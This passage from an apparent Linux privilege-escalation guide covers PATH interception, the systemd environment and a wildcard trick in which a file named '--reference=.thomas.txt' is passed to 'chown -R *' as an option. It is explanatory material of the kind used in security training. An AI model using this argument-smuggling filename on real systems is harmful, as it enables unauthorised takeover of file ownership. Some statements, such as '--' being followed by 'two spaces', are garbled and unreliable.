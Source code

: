 You could search for *export PATH=* and examine what is there.

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Ensure root PATH Integrity

For more information about that technique refer to [T1574.007 - Hijack Execution Flow: Path Interception by PATH Environment Variable](https://attack.mitre.org/techniques/T1574/007/)

###### *If you don't know, now you know: [.bashrc & .bash_profile](https://medium.com/@makersu/bash-profile-vs-bashrc-4834eaf73379)*

bashrc is executed for every user who run a bash shell. It sets the default prompt, as well as adding aliases

bash_profile is is used by each user to enter information that are specific to them. It is executed only when the user logs in

#### Systemd PATH

We can dump the systemd manager environment block. This is the environment block that is passed to all processes the manager spawns.

```bash
systemctl show-environment
```

Same principle as $PATH, but for systemd services.

###### *If you don't know, now you know: [PATH](https://en.wikipedia.org/wiki/PATH_(variable))*

PATH is an environmental variable in Linux and Unix-like operating systems which specifies all bin and sbin directories that hold all executable programs are stored.

When the user run any command on the terminal, its request to the shell to search for executable files with the help of PATH Variable in response to commands executed by a user.

### Wildcard

When you provide **--** followed by two spaces, it instructs the program to stop interpret command line argument.

#### Chown/Chmod file reference

Here we wil use the **--reference=FILE** parameter that use the given *file*'s owner and group rather than specifying OWNER:GROUP values.

```bash
touch -- --reference=.thomas.txt
chown -R * .txt # This wil
```

Here below is an example:

```bash
# Create:
# - One file called ".thomas.txt" that belong to me
# - One filed called "--reference=.thomas.txt" which will be used as a reference parameter

kali@kali:/example$ touch .thomas.txt
kali@kali:/example$ touch -- --reference=.thomas.txt

# You can see that all files, except the two I created belongs to root
kali@kali:/example$ ls -all
total 44
drwxrwxrwx  2 root root  4096 Nov 20 11:41  .
drwxr-xr-x 22 root root 36864 Nov 20 11:31  ..
-rw-r--r--  1 root root     0 Nov 20 11:40  file1.txt
-rw-r--r--  1 root root     0 Nov 20 11:40  file2.txt
-rw-r--r--  1 root root     0 Nov 20 11:41  file3.txt
```